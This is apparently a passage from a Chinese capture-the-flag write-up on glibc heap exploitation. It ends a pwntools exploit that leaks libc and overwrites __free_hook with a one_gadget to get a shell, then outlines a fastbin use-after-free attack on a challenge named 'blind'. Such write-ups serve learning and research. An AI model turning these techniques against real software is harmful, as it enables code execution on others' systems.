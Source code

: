 ```python
    one = 0xea36d #0x46428 0x4647c 0xe9415 0xea36d
    libc_base = u64(io.recv(6).ljust(8,'\x00')) -0x10 -libc.symbols['__malloc_hook'] - 0x58
    log.success(hex(libc_base))
    edit(4,p64(libc_base + libc.symbols['__free_hook'])+'\n')#0x602080
    edit(1,p64(libc_base + one)+'\n')#0x602068->free_hook
    
    delete(1)
    '''gdb.attach(io)
    raw_input()'''
    io.interactive()
```    
# 2.blind
这道题。。说实话也不难。。
当时我是想用houseofroman做，但是不能用unsortedbin，根本搞不到libc地址
正确做法是利用iofile。。怪我年轻不懂事。。。
程序依旧没有开pie，同样的每次申请块大小固定，这次是0x70
```
    unsigned __int64 add()
    {
      unsigned int v1; // [rsp+Ch] [rbp-24h]
      char s; // [rsp+10h] [rbp-20h]
      unsigned __int64 v3; // [rsp+28h] [rbp-8h]
    
      v3 = __readfsqword(0x28u);
      printf("Index:");
      memset(&s, 0, 0x10uLL);
      read(0, &s, 0xFuLL);
      v1 = atoi(&s);
      if ( v1 <= 5 && !ptr[v1] )
      {
        ptr[v1] = malloc(0x68uLL);
        printf("Content:", &s);
        sub_400932((__int64)ptr[v1], 0x68u);
        puts("Done!");
      }
      return __readfsqword(0x28u) ^ v3;
    }
```
然后delete同样的没有将指针清零，但是有次数限制
```
    unsigned __int64 delete()
    {
      unsigned int v1; // [rsp+Ch] [rbp-24h]
      char s; // [rsp+10h] [rbp-20h]
      unsigned __int64 v3; // [rsp+28h] [rbp-8h]
    
      v3 = __readfsqword(0x28u);
      printf("Index:");
      memset(&s, 0, 0x10uLL);
      read(0, &s, 0xFuLL);
      v1 = atoi(&s);
      if ( v1 <= 5 && ptr[v1] && dword_602098 <= 2 )
      {
        free(ptr[v1]);
        ++dword_602098;
        puts("Done!");
      }
      return __readfsqword(0x28u) ^ v3;
    }
```
思路就是fastbin+uaf改掉heaplst中的指针，直接任意地址读写。比较恶心的地方就是
当时没发现魔术头7f，后来才知道在heaplst上边的stdin里边有指向libc地址的指针。。。在那里构造堆块就可以了